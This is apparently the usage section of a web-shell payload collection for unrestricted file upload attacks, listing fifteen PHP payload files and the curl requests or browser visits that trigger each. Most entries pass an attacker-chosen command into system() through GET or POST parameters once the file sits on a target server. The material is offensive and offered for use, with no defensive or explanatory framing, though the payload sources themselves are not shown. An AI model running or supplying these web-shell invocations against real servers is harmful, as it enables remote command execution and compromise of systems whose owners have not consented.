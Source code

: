 # USAGE

Payload || Invoke Command
UFU-PHP-P01.php || curl {{HOST}}/UFU-PHP-P01.php?a={{PAYLOAD}}
UFU-PHP-P02.php || curl -X POST -d "hkwwj={{PAYLOAD}}" {{HOST}}/UFU-PHP-P02.php
UFU-PHP-P03.php || curl -X POST -d "password=lol&cmd={{PAYLOAD}}" {{HOST}}/UFU-PHP-P03.php
UFU-PHP-P04.php || curl -X POST -d "tt1234=system('{{PAYLOAD}}')" {{HOST}}/UFU-PHP-P04.php
UFU-PHP-P05.php || curl -X POST -d "_=system('{{PAYLOAD}}')" {{HOST}}/UFU-PHP-P05.php
UFU-PHP-P06.php || curl -X POST -d "_=system('{{PAYLOAD}}')" {{HOST}}/UFU-PHP-P06.php
UFU-PHP-P07.php || curl -X POST -d "_=system('{{PAYLOAD}}')" {{HOST}}/UFU-PHP-P07.php
UFU-PHP-P08.php || curl -X POST -d "_=system('{{PAYLOAD}}')" {{HOST}}/UFU-PHP-P08.php
UFU-PHP-P09.php || Browser Navigation To {{HOST}}/UFU-PHP-P09.php
UFU-PHP-P10.php || Browser Navigation To {{HOST}}/UFU-PHP-P10.php
UFU-PHP-P11.php || curl {{HOST}}/UFU-PHP-P11.php?cmd={{PAYLOAD}}
UFU-PHP-P12.php || Browser Navigation To {{HOST}}/UFU-PHP-P12.php
UFU-PHP-P13.php || Browser Navigation To {{HOST}}/UFU-PHP-P13.php?key=hehe
UFU-PHP-P14.php || Browser Navigation To {{HOST}}/UFU-PHP-P14.php
UFU-PHP-P15.php || curl -X POST -d "-7=system('{{PAYLOAD}}')" {{HOST}}/UFU-PHP-P15.php

